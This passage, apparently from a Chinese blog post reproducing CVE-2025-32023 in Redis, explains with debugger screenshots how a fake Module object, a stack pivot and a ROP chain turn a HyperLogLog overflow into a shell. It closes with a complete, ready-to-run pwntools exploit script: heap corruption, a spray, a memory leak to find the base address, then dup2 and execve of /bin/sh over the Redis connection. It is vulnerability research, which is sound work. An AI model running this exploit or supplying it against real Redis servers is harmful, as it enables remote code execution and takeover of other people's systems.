

至此我们**泄露出了程序基地址**

# 构造伪模块完成栈迁移实现提权

## 构造模块对象操控程序执行流

为了控制程序执行流，我们基于已泄露的`sbs:b`基址（`badr`），通过`setrange`操作修改之前泄露的`embstr`对象的`robj`头部：将类型标记设为`0x05`（对应`Module`类型），保持原有编码和LRU字段，设置引用计数为`1`，并将对象指针重定向至`badr + 0x10`（可控内存区域）。此操作使`Redis`将目标`embstr`对象误判为`Module`类型，其内部指针指向伪造的`moduleValue`结构体。实际代码如下：

为了控制程序执行流，我们通过伪造`Module`对象实现：首先定位**之前泄露**的`embstr`对象，修改其`robj`头部的类型特征值为`0x05`（`Module`类型），保持原有编码和LRU字段，设置引用计数为`1`，并将内部指针重定向到可控的`sds:b`内存区域，具体代码如下：

```
pl = p8(0x05) + dump[tofs+1:tofs+4]   # 设置类型、编码和 LRU
pl += p32(1)                          # 引用计数
pl += p64(badr + 0x10)                # 指针
r.setrange('sds:b', tofs+3, pl)
```

此操作目的为`Redis`将目标`embstr`对象误判为`Module`类型，其内部指针指向伪造的`moduleValue`结构体。（位于`sds:b`偏移`0x10`处）。

接下来伪造`moduleValue`结构，`moduleValue`和其中的`type`变量对应的函数表结构如下：

```
typedef struct moduleValue {
    moduleType *type;
    void *value;
} moduleValue;

/* The module type, which is referenced in each value of a given type, defines

 * the methods and links to the module exporting the type. */

typedef struct RedisModuleType {
    uint64_t id; /* Higher 54 bits of type ID + 10 lower bits of encoding ver. */
    struct RedisModule *module;
    moduleTypeLoadFunc rdb_load;
    moduleTypeSaveFunc rdb_save;
    moduleTypeRewriteFunc aof_rewrite;
    moduleTypeMemUsageFunc mem_usage;
    moduleTypeDigestFunc digest;
    moduleTypeFreeFunc free;
    moduleTypeFreeEffortFunc free_effort;
    moduleTypeUnlinkFunc unlink;
    moduleTypeCopyFunc copy;
    moduleTypeDefragFunc defrag;
    moduleTypeAuxLoadFunc aux_load;
    moduleTypeAuxSaveFunc aux_save;
    moduleTypeMemUsageFunc2 mem_usage2;
    moduleTypeFreeEffortFunc2 free_effort2;
    moduleTypeUnlinkFunc2 unlink2;
    moduleTypeCopyFunc2 copy2;
    moduleTypeAuxSaveFunc aux_save2;
    int aux_save_triggers;
    char name[10]; /* 9 bytes name + null term. Charset: A-Z a-z 0-9 _- */
} moduleType;
```

通过修改`type`指针指向地址，将`free`函数的地址对应到`badr + 0x20`（实际指向别的`gadget`），实际修改代码如下：

```
#0x001b9991: mov rax, rdi; mov rsi, [rdi+8]; mov rdi, [rdi]; mov rbp, rsp; call qword ptr [rax+0x10];
B = binary.address  # redis-server 基地址
# 构造伪造的模块值结构
# badr + 0x10
pl = p64(badr + 0x20 - 7*8)   # mv->type
pl += p64(badr + 0x2010)      # mv->value (rdi)
pl += p64(B + 0x001b9991)     # mv->type->free (rip), gadget #0
pl = pl.ljust(0x1000, b'\0')
```

简单分析下代码，`p64(badr + 0x20 - 7*8)`，这里的`badr + 0x20`指向当前的第三个内存空间，为了让这个内存空间的指针代表`free`函数的指针，我们根据`struct RedisModuleType`的结构，做偏移`-7*8`。  
做完上述，当我执行代码`p.sendline(f'set {tkey} 0')`就是使得这个伪造的模块开始执行伪造的`free (value)`，真实为跳转到`B + 0x001b9991`执行`gadget`，并且修改`rdi`为`badr + 0x2010`地址。

下图为真实代码执行时被修改的情况：  


## 操控执行流造成栈迁移并执行恶意rop链

接下来我们详细分析进入`gadget`后，是如何导致栈迁移的，导致栈迁移rop链如下：

```
'''
0x001b9991: mov rax, rdi; mov rsi, [rdi+8]; mov rdi, [rdi]; mov rbp, rsp; call qword ptr [rax+0x10];
0x00226097: mov rbp, rdi; mov esi, 0x10; mov edi, 1; call qword ptr [rax+8];
0x001410ec: leave; ret;
0x002d6706: pop rdi; ret;
0x002d5cfb: pop rsi; ret;
0x000fc472: pop rdx; ret;
'''

# 构造 ROP 链
B = binary.address  # redis-server 基地址
PRDI = B+0x002d6706  # pop rdi; ret
PRSI = B+0x002d5cfb  # pop rsi; ret
PRDX = B+0x000fc472  # pop rdx; ret

# 构造伪造的模块值结构
# badr + 0x10
pl = p64(badr + 0x20 - 7*8)   # mv->type
pl += p64(badr + 0x2010)      # mv->value (rdi)
pl += p64(B + 0x001b9991)     # mv->type->free (rip), gadget #0
pl = pl.ljust(0x1000, b'\0')

# badr + 0x1010: 构造 /bin/sh 命令
pl += b'/bin/sh\0'            # shell 命令字符串
pl += p64(badr + 0x1010)      # 参数地址
pl += p64(0)                  # NULL
pl = pl.ljust(0x2000, b'\0')

# badr + 0x2010: ROP 链的开始
pl += p64(badr + 0x2028)      # [rdi]，设置 rbp
pl += p64(B + 0x001410ec)     # gadget #2: leave; ret
pl += p64(B + 0x00226097)     # gadget #1: 设置参数并调用
pl += p64(0)                  # 用于 pop rbp   
```

我们一边动态调试一边分析，下图是我们前面代码泄露出的地址作为前提：  
  
按照上一部分所说，我们进入如下的`gadget#0`，并且`rdi`会被设置成`badr + 0x2010`

```
0x001b9991: mov rax, rdi; mov rsi, [rdi+8]; mov rdi, [rdi]; mov rbp, rsp; call qword ptr [rax+0x10];
```

如下图`rdi`被修改为`0x7ffff7773010=0x7ffff7771000+0x2010`  


执行完这个`gadget#0`后，`rax`的值为`badr + 0x2010`，`[rax+0x10]`对应位`B + 0x00226097`，将执行如下的`gadget#1`，并且经过`mov rdi, [rdi]`，此时`rdi`的值被修改为`badr + 0x2028`。

```
0x00226097: mov rbp, rdi; mov esi, 0x10; mov edi, 1; call qword ptr [rax+8];
```

如下图`rax`被修改为`0x7ffff7773010`，`rdi`被修改为`0x7ffff7773028=0x7ffff7771000+0x2028`  


执行完这个`gadget#1`后，`rax`的值依旧为`badr + 0x2010`，`[rax+0x8]`对应位`B + 0x001410ec`，将执行如下的`gadget#2`，经过`mov rbp, rdi`，`rbp`的值为`badr + 0x2028`。

```
0x001410ec: leave; ret;
```

如下图`rbp`被修改为`0x7ffff7773028=0x7ffff7771000+0x2028`  


执行完`gadget#2`中的`leave`，`rbp`的值变为`0`（因为`badr + 0x2028`存着`0`），`rsp`的值为`badr + 0x2030`。  
如下图`rsp`被修改为（图中这里执行完了`ret`，`rsp+0x8`了）`0x7ffff7773038`  


至此**完成栈转移**

后续的`rop`链如下：

```
# 重定向标准输入输出到我们的连接
pl += p64(PRDI) + p64(fd) + p64(PRSI) + p64(0) + p64(binary.plt['dup2'])  # stdin
pl += p64(PRDI) + p64(fd) + p64(PRSI) + p64(1) + p64(binary.plt['dup2'])  # stdout
pl += p64(PRDI) + p64(fd) + p64(PRSI) + p64(2) + p64(binary.plt['dup2'])  # stderr

# 执行 system("/bin/sh")
pl += p64(PRDI) + p64(badr + 0x1010)  # "/bin/sh" 字符串地址
pl += p64(PRSI) + p64(badr + 0x1018)  # argv
pl += p64(PRDX) + p64(0)              # envp = NULL
pl += p64(binary.plt['execve'])       # 调用 execve
```

实现了两个目标，一是通过三次调用`dup2`系统调用，将当前连接的文件描述符`fd`复制到标准输入(`0`)、标准输出(`1`)和标准错误(`2`)，二是执行`execve`，拿`shell`。

实际完成栈转移后的栈区构造如下：  


执行完后，顺利提权。  


至此**提权完成**

# 一些声明和完整的攻击脚本

本文为`CVE-2025-32023`漏洞复现分析，攻击脚本和利用思路主要遵循原作者方案。文中使用"我们"仅为叙述方便，实际为基于作者思路的复现过程，同时融入个人理解与分析，可能存在不准确之处，敬请谅解。

这里附上完整的攻击脚本。

```
#!/usr/bin/env python3

from pwn import *
import redis
import random
import string

HOST, PORT = 'localhost', 6379

binary = ELF('/home/kali/Desktop/CVE-2025-32023-main/redis-server')  # 加载 redis-server 二进制文件用于后续 ROP

# Redis 命令客户端，用于发送常规 Redis 命令
r = redis.Redis(HOST, PORT)

# 用于获取 shell 的客户端，通过 client info 命令获取文件描述符
p = remote(HOST, PORT)
p.sendline('client info')
p.recvuntil('fd=')
fd = int(p.recvline().split()[0])  # 获取客户端连接的文件描述符，后面用于 dup2
log.info(f'{fd = }')

# HyperLogLog 相关常量定义
HLL_DENSE = 0     # 密集编码类型
HLL_SPARSE = 1    # 稀疏编码类型
HLL_DENSE_SIZE = 0x3010  # 密集编码的大小

# 创建密集型 HLL，本质上就是一个带有特定编码的字符串
# HYLL 是 HyperLogLog 的魔术字符串标识
pl = b'HYLL'
pl += p8(HLL_DENSE)  # 设置为密集编码
pl = pl.ljust(HLL_DENSE_SIZE, p8(0))  # 填充到指定大小
r.set('hll:dense', pl)
# 确认 HLL 编码有效性
r.pfadd('hll:dense')

# 构造畸形的稀疏 HLL
# xzero 函数用于生成稀疏编码中的零运行长度编码
def xzero(sz):
  sz -= 1
  return p8(0b01_000000 | (sz >> 8)) + p8(sz & 0xff)  # 按照 Redis HLL 稀疏编码格式构造

# 构造恶意 payload
pl = b'HYLL'  # HLL 魔术字符串
pl += p8(HLL_SPARSE) + p8(0)*3  # 设置为稀疏编码
pl += p8(0)*8  # 填充
assert len(pl) == 0x10
# 下面的操作会导致计数器溢出，从而触发漏洞
pl += xzero(0x4000) * 0x3fffd   # -0xc000
pl += xzero(0xc000 - 0x956c)    # -, where divmod(-0x956c*6, 8) = (-0x7011, 0)
pl += p8(0b1_00011_00)          # runlen = 1, regval = 4 = SDS_TYPE_64 => -0x956b, 覆写 sds:b 类型
pl += xzero(0x156b)             # -0x8000
pl += xzero(0x4000) * 3         # 0x4000
r.set('hll:exp', pl)

# 准备 14KiB 大小的 SDS 字符串
# 设置一个伪造的字符串长度，用于后续堆喷
fakelen = 0x4142434445464748  # 伪造的超大长度
r.setrange('sds:a', 0x37fa - 11, p64(fakelen))  # sds @ 0x0005
r.setrange('sds:b', 0x37fa - 8, b'B'*8)         # sds @ 0x3805
r.setrange('sds:c', 0x37fa - 8, b'C'*8)         # sds @ 0x7005

# 触发漏洞
# 调用 pfmerge 会触发 hllMerge 和 hllSparseToDense
# 分配 0x3010 字节并向上取整到 0x3800 (14KiB)
r.pfmerge('hll:exp', 'hll:dense')                # sds @ 0xa805            #dbUnshareStringValue中的createRawStringObject作为sds因而连续内存空间

# 验证字符串类型是否被成功修改
assert r.strlen('sds:b') == fakelen

#------------这个为什么会需要这么大这么多而且为什么会消失这么多。
marker = ''.join(random.choices(string.ascii_letters + string.digits, k=8)).encode()  # 随机标记
log.info(f'{marker = }')
spray_cnt = 0x100000 // 0x40
for i in range(spray_cnt // 0x400):   # 批量喷射以提高效率
  ms = {}
  for j in range(0x400):
    idx = i * 0x400 + j
    ms[f'sds:_{idx}'] = (marker+p64(idx)).ljust(0x2b, b' ')
  r.mset(ms)

# 利用前面伪造的长度转储堆内存
a = r.getrange('sds:b', 0, 0x100000)
dump = a[3:]    #--------------这个3有啥用   对齐

# 寻找符合条件的 embstr 对象
mark = 0x3700
while mark < len(dump):
  mark = dump.find(marker, mark)
  assert mark != -1
  tofs = mark - 3 - 0x10
  # 验证对象的类型标记、引用计数和 SDS 头部
  if dump[tofs] == 0x80 and u32(dump[tofs+4:tofs+8]) == 0x1 and dump[tofs+0x10:tofs+0x13] == b'\x2b\x2b\x01':
    break
  mark += 8
else:
  assert False, '[!] embstr spray egghunt fail'

# 计算目标 Redis 对象地址
tadr = u64(dump[tofs+8:tofs+0x10]) - 3 - 0x10   # embstr 对象的地址
tkey = f'sds:_{u64(dump[tofs+3+0x18:tofs+3+0x20])}' #index 值
log.success(f'{tofs = :#x} ({tkey = })')
log.success(f'{tadr = :#014x}')

# 计算 sds:b 的头部地址
badr = tadr - tofs - 8
log.info(f'{badr = :#014x}')

# 寻找 redis-server 基地址
egg = binary.sym['je_ehooks_default_extent_hooks'] & 0xfff
for i in range(0x10000 - ((badr + 8) & 0xffff), len(dump), 0x10000):
  if u64(dump[i:i+8]) == 0x200000 and (u64(dump[i+0xc8:i+0xd0]) & 0xfff) == egg and (u64(dump[i+0xd8:i+0xe0]) & 0xfff) == egg:
    binary.address = u64(dump[i+0xc8:i+0xd0]) - binary.sym['je_ehooks_default_extent_hooks']
    break
else:
  assert False, '[!] redis-server base egghunt fail'

assert (binary.address & 0xfff) == 0
log.success(f'{binary.address = :#014x}')

# 构造伪造的模块对象
pl = p8(0x05) + dump[tofs+1:tofs+4]   # 设置类型、编码和 LRU
pl += p32(1)                          # 引用计数
pl += p64(badr + 0x10)                # 指针
r.setrange('sds:b', tofs+3, pl)
# 0x7ffff7771000+8+0x2dff8-0x10
# ROP gadgets:
'''
0x001b9991: mov rax, rdi; mov rsi, [rdi+8]; mov rdi, [rdi]; mov rbp, rsp; call qword ptr [rax+0x10];
0x00226097: mov rbp, rdi; mov esi, 0x10; mov edi, 1; call qword ptr [rax+8];
0x001410ec: leave; ret;
0x002d6706: pop rdi; ret;
0x002d5cfb: pop rsi; ret;
0x000fc472: pop rdx; ret;
'''

# 构造 ROP 链
B = binary.address  # redis-server 基地址
PRDI = B+0x002d6706  # pop rdi; ret
PRSI = B+0x002d5cfb  # pop rsi; ret
PRDX = B+0x000fc472  # pop rdx; ret

# 构造伪造的模块值结构
# badr + 0x10
pl = p64(badr + 0x20 - 7*8)   # mv->type
pl += p64(badr + 0x2010)      # mv->value (rdi)
pl += p64(B + 0x001b9991)     # mv->type->free (rip), gadget #0
pl = pl.ljust(0x1000, b'\0')

# badr + 0x1010: 构造 /bin/sh 命令
pl += b'/bin/sh\0'            # shell 命令字符串
pl += p64(badr + 0x1010)      # 参数地址
pl += p64(0)                  # NULL
pl = pl.ljust(0x2000, b'\0')

# badr + 0x2010: ROP 链的开始
pl += p64(badr + 0x2028)      # [rdi]，设置 rbp
pl += p64(B + 0x001410ec)     # gadget #2: leave; ret
pl += p64(B + 0x00226097)     # gadget #1: 设置参数并调用
pl += p64(0)                  # 用于 pop rbp

# 构造完整的 ROP 链
# 重定向标准输入输出到我们的连接
pl += p64(PRDI) + p64(fd) + p64(PRSI) + p64(0) + p64(binary.plt['dup2'])  # stdin
pl += p64(PRDI) + p64(fd) + p64(PRSI) + p64(1) + p64(binary.plt['dup2'])  # stdout
pl += p64(PRDI) + p64(fd) + p64(PRSI) + p64(2) + p64(binary.plt['dup2'])  # stderr

# 执行 system("/bin/sh")
pl += p64(PRDI) + p64(badr + 0x1010)  # "/bin/sh" 字符串地址
pl += p64(PRSI) + p64(badr + 0x1018)  # argv
pl += p64(PRDX) + p64(0)              # envp = NULL
pl += p64(binary.plt['execve'])       # 调用 execve

# 写入构造好的 payload
r.setrange('sds:b', 3+8, pl)
r.close()
del r

# 触发漏洞利用！删除伪造的模块对象会触发其析构函数
p.sendline(f'set {tkey} 0')
p.interactive()
```
